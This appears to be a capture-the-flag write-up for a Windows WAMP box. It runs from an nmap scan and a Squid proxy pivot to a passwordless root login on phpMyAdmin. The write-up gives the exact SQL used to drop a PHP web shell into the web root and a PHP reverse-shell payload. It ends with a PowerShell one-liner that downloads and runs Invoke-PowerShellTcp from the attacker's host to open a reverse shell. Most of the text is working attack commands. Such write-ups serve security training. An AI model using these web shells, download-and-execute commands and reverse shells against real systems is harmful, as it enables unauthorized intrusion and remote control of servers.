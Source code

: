 
nmap scan found squid proxy on port 3128

Connected to squid proxy and ran port scan on localhost

Found 8080

Went to 8080 and found phpinfo() and phpmyadmin

Logged into phpmyadmin with user:root, no password

In phpmyadmin created table tmp_tbl
```mysql
CREATE TABLE tmp_tbl (firstname varchar(255), lastname varchar(255));
```

Inserted php into column of tmp_tbl:
```php
<?php system($_GET["cmd"]); ?>
```

Checked web server location in PHPMyadmin, found at C:/wamp/www

Output the PHP by running the following command:
```mysql
SELECT firstname INTO OUTFILE 'C:/wamp/www/cmd.php' FROM tmp_tbl
```

Upon hitting `http://box-ip:8080/cmd.php?cmd=ipconfig` we found the script successfully ran and showed ipconfig output

Run nc listener locally

Tried running netcat through cmd.php but unsuccessful

UPDATE row in tmp_tbl to be the following:
```php
<?php set_time_limit(0); $ip = "<listening-ip>"; $port = listening-port; $sock = fsockopen($ip, $port); while(!feof($sock)) {$command = fgets($sock, 1024);$output = shell_exec($command);fwrite($sock, $output);} fclose($sock); ?>
```

Ran the INTO OUTFILE command again this time calling it shell.exe

Upon hitting this in a web request successfully gain a shell but "dumb" shell. Unable to escalate to powershell or cmd, however found a way on serverfault: https://serverfault.com/questions/588151/how-to-execute-a-reverse-powershell-shell-using-ncat-or-netcat

On local machine ran
```
python3 -m http.server 4444
```

In new tab ran
```
nc -lnvp 1338
```

Then, finally, in the "dumb" shell ran
```
powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<attacking-machine-port>:4444/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress <attacking-machine-port> -Port 1338"
```

And boom we have a reverse powershell connection 

From here just find the user flag, which was just a txt file located in C:\